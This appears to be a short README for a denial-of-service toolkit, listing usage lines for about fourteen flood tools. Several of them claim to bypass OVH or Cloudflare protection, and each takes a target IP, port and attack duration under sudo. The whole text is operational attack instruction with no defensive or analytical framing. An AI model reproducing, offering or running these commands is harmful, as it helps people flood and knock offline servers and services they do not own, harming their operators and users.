 How to use :

SSA : sudo ./ssa (ip)

ETC : sudo ./etc (ip) (port)

OVH : sudo ./ovh %ip% %port% 9999 0 %time

OVH-V2 : sudo ./ovhbypass2 %ip% %port% %time udp

STD : sudo ./STD-NOSPOOF %ip% %port%

STCP : sudo ./STCP %ip% %port% 10 -1 %time ack

HEX : sudo ./HEX OVH %ip% %port% 300

NUKE-BYPASS : sudo ./HiperOVH %ip% %port

CLOUDFLARE : sudo ./cloudflare %ip% 10 -1 300

ETHERA : sudo ./ETHERA %ip% %port

CPU-SURGE : sudo ./CPU-SURGE TCP %ip% %port% 300

VALID-SYN : sudo ./WRA %ip% %port% 10 -1 300

R4P3 : sudo ./gre %ip% 10 -1 300

NFO : sudo ./NFO %ip% %port% 10 -1 300
